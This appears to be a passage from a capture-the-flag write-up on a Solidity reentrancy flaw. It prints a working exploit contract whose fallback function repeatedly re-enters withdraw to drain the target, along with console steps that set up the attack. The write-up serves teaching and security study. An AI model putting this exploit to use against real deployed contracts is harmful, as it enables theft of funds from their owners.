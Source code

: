 This is highly problematic because a malicious contract can, upon receiving either
from `call`, re-enter the withdraw function and continue to withdraw ether
because its balance was never updated and will therefore satisfy the `require`
statement. This is exactly what we'll do with our exploit contract.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Reentrance.sol";

contract ReentranceExploit {
    uint private amount;
    Reentrance reentrance;

    constructor(address _reentrance) public {
        reentrance = Reentrance(_reentrance);
    }

    function exploit(uint _amount) external {
        amount = _amount;
        reentrance.withdraw(amount);
    }

    fallback() external payable {
        if (address(reentrance).balance > 0) {
            reentrance.withdraw(amount);
        }
    }
}
```

We initiate the exploit by calling `exploit` with the right amount. To drain the
entire contract, we need to make sure `_amount` evenly divides the contract's
total balance. The contract is initialized with a balance of 0.001 ether. We'll
deposit an additional 0.001 ether and run the exploit.

```
>> await contract.donate(<Address of ReentraceExploit>, { value: toWei('0.001') })
>> (await contract.balanceOf(i<Address of ReentranceExploit)).toString() // verify exploit contract balance
'1000000000000000'
>> await getBalance(instance)
'0.002'
```

Great! Now everything is set up to run the exploit. We're going to call `exploit`
with 0.001 ether. To make the exploit abundantly clear, let's follow the execution
path line by line

```
1. (ReentranceExploit) amount = _amount;
We set the amount contract variable. We'll need this when `fallback` is called.

2. (ReentranceExploit) reentrance.withdraw(amount);

3. (Reentrance) if(balances[msg.sender] >= _amount) {
We called withdraw with our balance amount, so we enter the if clause

4. (Reentrance) (bool result,) = msg.sender.call{value: _amount}("");
Sending ether via call will trigger ReentranceExploit's fallback function

5. (ReentranceExploit) if (address(reentrance).balance > 0) {
This is how we know when to stop. When the exploited contract's balance is 0 we
will stop reentering it.

6. (ReentranceExploit) reentrance.withdraw(amount);
```